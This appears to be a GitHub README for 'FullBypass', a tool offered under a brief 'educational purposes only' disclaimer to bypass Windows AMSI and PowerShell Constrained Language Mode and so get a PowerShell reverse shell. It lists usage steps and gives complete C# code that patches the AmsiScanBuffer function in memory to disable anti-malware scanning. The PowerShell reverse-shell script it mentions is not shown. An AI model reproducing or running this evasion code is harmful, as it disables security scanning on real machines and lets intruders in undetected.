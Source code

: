 # FullBypass

## Disclaimer
This tool is intended for educational purposes only. Unauthorised use of this tool is prohibited. Use responsibly and ensure you have proper authorisation before testing any security measures. Remember this is 4lph4-01 and our community project...

## Overview
This repository contains a tool that demonstrates how to bypass AMSI (AntiMalware Scan Interface) and PowerShell Constrained Language Mode (CLM) to achieve a FullLanguage PowerShell reverse shell.

## Usage
1. Compile the C# code using `msbuild` https://learn.microsoft.com/en-us/visualstudio/msbuild/walkthrough-using-msbuild?view=vs-2022.
2. Execute the compiled binary to disable AMSI.
3. Run the PowerShell script to establish a reverse shell.

## Basic C# Bypass Attempt
```csharp
using System;
using System.Runtime.InteropServices;

public class AMSIBypass
{
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

    public static void Bypass()
    {
        var hModule = LoadLibrary("amsi.dll");
        var addr = GetProcAddress(hModule, "AmsiScanBuffer");
        VirtualProtect(addr, (UIntPtr)5, 0x40, out var oldProtect);
        Marshal.Copy(new byte[] { 0x31, 0xFF, 0x90 }, 0, addr, 3);
        VirtualProtect(addr, (UIntPtr)5, oldProtect, out _);
    }

    public static void Main(string[] args)
    {
        Bypass();
        Console.WriteLine("AMSI Bypass Applied");
    }
}
